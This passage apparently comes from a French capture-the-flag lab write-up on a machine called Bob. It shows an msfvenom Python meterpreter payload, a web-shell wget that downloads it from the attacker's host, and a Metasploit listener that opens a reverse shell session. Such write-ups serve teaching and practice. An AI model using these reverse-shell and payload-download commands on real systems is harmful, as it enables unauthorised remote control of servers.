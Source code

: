 Cela dit, autant avoir un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) sous la main. Le principe est le suivant : un _reverse shell_ en Python va être créé et déposé sur le serveur Bob. Ce bout de code va, dans un premier temps, créer une connexion sur le port 4444 entre le serveur du lycée (192.168.56.103) et notre propre machine (192.168.56.101), avant d'envoyer un meterpreter à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -o shell.py
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 554 bytes
Saved as: shell.py

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

De retour sur le _Web-Shell_, le _reverse shell_ Python est déposé sur le serveur via [__wget__](https://www.gnu.org/software/wget/).

```console
Command : id && wget http://192.168.56.101:8000/shell.py -O /tmp/shell.py
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)

Command : id && ls /tmp
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users) shell.py
```

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 4444.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole

--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444
```

De retour une nouvelle fois sur le _Web-Shell_, le fait de lancer la commande ```id && python /tmp/shell.py``` amorce la connexion.

```console 
msf exploit(multi/handler) > [*] Sending stage (53168 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.103:41370) at 2018-05-08 22:22:22 +0200

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                       Information  Connection
  --  ----  ----                       -----------  ----------
  1         meterpreter python/python               192.168.56.101:4444 -> 192.168.56.103:41370 (192.168.56.103)
```
